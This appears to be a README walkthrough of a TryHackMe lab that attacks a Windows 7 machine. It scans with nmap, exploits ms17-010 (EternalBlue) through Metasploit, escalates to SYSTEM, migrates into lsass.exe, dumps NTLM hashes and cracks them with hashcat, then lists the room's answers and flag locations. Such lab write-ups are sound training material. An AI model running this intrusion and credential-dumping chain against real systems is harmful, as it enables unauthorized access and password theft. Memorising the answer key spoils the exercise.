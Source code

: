 Hi!

Let's start!

1. To begin with, we must classically connect to a VPN using OpenVPN.
Go to your [profile](https://tryhackme.com/access), download the file to connect, go to "/Downloads" and create the new
terminal:

```$ openvpn <Name>.ovpn ```

2. After that, we open the quest no. 1 and launch the instance (Deploy).

3. After all this, we can slowly start. The first thing we do is scan the machine:

``` $ nmap -Pn <ip> ```

Scanning shows us the services and ports on which they operate. Let's try to find out about distribution.

```$ nmap -A -T 5 <ip> -vv```

We can see that the machine is Windows 7.

4. Now we need to find out what the machine is vulnerable to (ms ?? - ???). So we type:

```$ nmap --script vuln <ip> -vv```

And we see smb-vuln-ms17-010 ( [ms17-010](https://www.exploit-db.com/exploits/42315) ).

5. Now let's try to access the machine.

6. Run [metasploit](https://www.metasploit.com/):

```$ msfconsole```

Search exploit to this susceptibility in msf:

```$ search ms17–010```

Now you see list available attacks. We due to the fact that we know the distribution, we choose this on Windows 7.

``` $ use 2 ``` (windows/smb/ms17_010_eternalblue)

7. Now we must find out what to options we must refill to attack:

```$ show options```

We see RHOST, so we complete it:

```$ set RHOSTS <ip>```

And run script:

```$ run```

We should access the console!

If necessary, make sure the exploit is working properly. Click enter and you should see a DOS shell.
Try to enter the shell background (CTRL + Z). If it fails, you may need to reboot the machine (deploy), but before that try running the script again and see if it works.

Push enter.

8. If you haven't entered the shell background (CTRL + Z). Find out on the internet how
convert shell to meterpreter in metasploit. What is the name of the post module we will use.
(Exact path, similar to the name of the exploit used).

9. Let's go back to the metasploit first:

```$ background```

Let's verify that the session still exists:

```$ session```

We should see information about the session, its type, etc.

10. Let's try to change shell to meterpreter:

```$ use multi/manage/shell_to_meterpreter```

Fill in all missing options to capture shell:

```
$ set LPORT 1234
$ set SESSION 1
```

Run:

```$ run```

If that doesn't work try create shell again.

11. Let's see the existing sessions:

```$ session```

We should see the second session, which is of type meterpreter.

Let's try to connect to it:

```$ sessions 2```

We should be able to see the meterpreter console.

12. Let's check if we escalated to NT AUTHORITY \ SYSTEM. Run this command to do this:

```$ getsystem```

We can freely change the shells from shell to meterpreter.

Let's check who we are:

```
$ shell
$ whoami
```

Now we back to meterpreter ( CTRL + Z ).

13. Just because we are a system does not mean that our process is also. Let's check the list of running processes:

```$ ps```

And remember the process id (PID).

14. Let's migrate the lsass.exe process. Having a meterpreter let's enter:

```$ migrate 708```

15. Let's dump non-primary user passwords for cracking later.

In our elevated shell (meterpreter) run the command:

```$ hashdump```

This will dump all password hashes on the computer if we have the appropriate permissions to do so.

Which user is not the default?

16. Copy the hashes to the file to crack. (these [NTLM](https://en.wikipedia.org/wiki/NT_LAN_Manager) hashes, paste them as you see in the console).

Let's organize the hash to crack. (user: hash <- the last "cluster of letters" in the line after : and before :::)

e.g.
```Administrator:31d6cfe0d16(...)```

17. I will use the hashcat to crack the hash:

``` $ hashcat -a 0 -m 1000 <HashFile>.txt <WordlistToCrack e.g. rockyou.txt>.txt --force --username --show ```

After a while we should get the password to Jon (alqfna22)

18. Now let's look for the flags:

1) The first one is in C:\flag1.txt

2) Next in C:\Documents and Settings\Jon\Documents\flag3.txt

3) And the last one in C:\Windows\System32\config\flag2.txt

Each flag can be shown with a command: ```type```
e.g. ``` type flag1.txt ```

19. Congratulations you have completed all the tasks. Good luck!

// Completing the headings

Task 1.

2) 3

3) ms17-010

Task 2. 

2) exploit/windows/smb/ms17_010_eternalblue

3) RHOSTS

Task 3.

1) post/multi/manage/shell_to_meterpreter

2) SESSION

Task 4.

1) Jon

2) alqfna22

Task 5.

1) Write flag number 1

2) Write flag number 2

3) Write flag number 3 
